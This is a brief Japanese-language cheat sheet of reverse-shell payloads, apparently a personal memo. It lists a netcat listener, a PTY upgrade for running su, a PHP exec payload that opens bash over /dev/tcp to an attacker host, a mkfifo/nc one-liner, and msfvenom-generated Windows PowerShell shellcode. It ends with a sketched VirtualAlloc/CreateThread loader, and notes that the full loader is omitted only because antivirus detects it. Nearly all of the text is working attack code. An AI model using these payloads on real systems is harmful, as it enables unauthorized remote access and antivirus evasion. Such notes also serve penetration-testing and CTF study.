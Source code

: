 # リバースシェル

## メモ

### listen

```shell
nc -lvp <port>
```

### リバースシェルで su を実行できるようにする魔法

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
su - <user>
```

## 言語別

### PHP

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'") ?>
```

### shell
```shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f
```

### msfvenom & Powershell シェルコード
```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f powershell

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,（長いので省略）
```

PowerShellで、この buf のバイト列を、VirtualAllocしたメモリにコピーし、CreateThreadにアドレスを渡すことで実行される。  
ウイルス検出されるので全体は書けないが、↓のイメージ。

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
```


